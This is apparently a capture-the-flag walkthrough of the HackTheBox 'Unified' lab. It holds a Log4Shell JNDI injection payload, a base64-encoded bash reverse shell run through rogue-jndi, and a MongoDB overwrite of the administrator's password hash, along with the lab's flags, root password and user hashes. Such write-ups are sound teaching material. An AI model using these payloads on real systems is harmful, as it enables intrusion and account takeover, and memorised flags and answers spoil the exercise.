



# 🐧 Unified — HTB Starting Point


> **TL;DR** — UniFi Network 6.4.54 is vulnerable to **Log4Shell (CVE-2021-44228)** in the `remember` field → JNDI/LDAP callback confirmed with `tcpdump` → reverse shell via `rogue-jndi` → access MongoDB (port 27117) → overwrite the admin password in the database → root's password in the UniFi panel → SSH.

**Tags:** `Log4Shell` · `CVE-2021-44228` · `JNDI/LDAP` · `MongoDB` · `password reset`

---

## 1. Which are the first four open ports?

```bash
nmap 10.129.96.149
```

> **Answer:** `22, 6789, 8080, 8443`

## 2. What is the title of the software that is running running on port 8443? 3. What is the version of the software that is running?

A **UniFi Network** login panel:



> **Answer:** `UniFi Network`, version `6.4.54`

## 4–7. The vulnerability (theory)

| Question | Answer |
|---|---|
| What is the CVE for the identified vulnerability? | `CVE-2021-44228` (Log4Shell) |
| What protocol does JNDI leverage in the injection? | `LDAP` |
| What tool do we use to intercept the traffic, indicating the attack was successful? | `tcpdump` |
| What port do we need to inspect intercepted traffic for? | `389` |

## 8. Submit the flag located in the michiael user's home directory.

Listen on the LDAP port to catch the callback:

```bash
sudo tcpdump -i tun0 port 389
```

Inject the payload into each login form field:

```
${jndi:ldap://10.10.15.19:389/test}
```



The **`remember`** field turns out to be vulnerable — `tcpdump` catches the connection:

```
IP 10.129.96.149.47446 > 10.10.15.19.ldap: Flags [S] ...
```

A try with [marshalsec](https://github.com/mbechler/marshalsec) failed — newer Java versions block loading remote classes over JNDI (`trustURLCodebase=false`). Switching to [rogue-jndi](https://github.com/veracode-research/rogue-jndi/), which ships a ready Tomcat payload (UniFi runs on Tomcat):

```bash
echo 'bash -i >& /dev/tcp/10.10.15.19/4444 0>&1' | base64

java -jar RogueJndi-1.1.jar \
  --command "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xOS80NDQ0IDA+JjEK}|{base64,-d}|bash" \
  --hostname 10.10.15.19

nc -lvnp 4444
```

Set the `remember` field to a payload pointing at the rogue LDAP server:

```
${jndi:ldap://10.10.15.19:1389/o=tomcat}
```

A reverse shell lands on the listener — read the flag from `michael`'s directory.

> `6ced1a6a89e666c0620cdb10262ba127`

## 9. What port is the MongoDB service running on?

```bash
ps aux | grep mongo
```

```
unifi ... bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 ...
```

> **Answer:** `27117`

## 10–12. What is the default database name for UniFi applications? What is the function we use to enumerate users within the database in MongoDB? What is the function we use to update users within the database in MongoDB?

Connect to the database and list databases:

```bash
mongo --port 27117
```

```
show dbs
ace       0.002GB   # default UniFi application database
ace_stat  0.000GB
admin     0.000GB
...
```

| Question | Answer |
|---|---|
| Default UniFi application database | `ace` |
| Function to enumerate users | `db.admin.find()` |
| Function to update users | `db.admin.update()` |

<details>
<summary>Sample output of <code>db.admin.find()</code> (truncated)</summary>

```json
{ "name": "administrator", "email": "administrator@unified.htb",
  "x_shadow": "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4." }
{ "name": "michael",  "email": "michael@unified.htb",  "x_shadow": "$6$spHwHYVF$mF/VQrMNG..." }
{ "name": "Seamus",   "email": "seamus@unified.htb",   "x_shadow": "$6$NT.hcX..$aFei35dMy..." }
{ "name": "warren",   "email": "warren@unified.htb",   "x_shadow": "$6$DDOzp/8g$VXE2i.Fg..." }
{ "name": "james",    "email": "james@unfiied.htb",    "x_shadow": "$6$ON/tM.23$cp3j11Tk..." }
```
</details>

## 13. What is the password for the root user?

The admin hash (`$6$` = SHA-512crypt) doesn't crack with `john` + rockyou. Instead, **overwrite the admin password** with our own hash and log into the UniFi panel:

```bash
openssl passwd -6 fluffy
# $6$qdWX0VHmw9zo6BOP$PjvdvSLwl78NL6v9J3VDcZmQBkk5XkU65CwuCaE7vKN...
```

```js
db.admin.update(
  {"name":"administrator"},
  {$set:{"x_shadow":"$6$qdWX0VHmw9zo6BOP$PjvdvSLwl78NL6v9J3VDcZmQBkk5XkU65CwuCaE7vKN..."}}
)
// WriteResult({ "nMatched": 1, "nModified": 1 })
```

After logging in, *Settings → Site* reveals the SSH login and password for root:



> **Answer:** `NotACrackablePassword4U2022`

## 14. Submit the flag located in root's home directory.

```bash
ssh root@10.129.96.149   # NotACrackablePassword4U2022
cat /root/root.txt
```

> `e50bc93c75b634e4b272d2f771c33681`

---

## 🚩 Flags

| | |
|---|---|
| **User** | `6ced1a6a89e666c0620cdb10262ba127` |
| **Root** | `e50bc93c75b634e4b272d2f771c33681` |
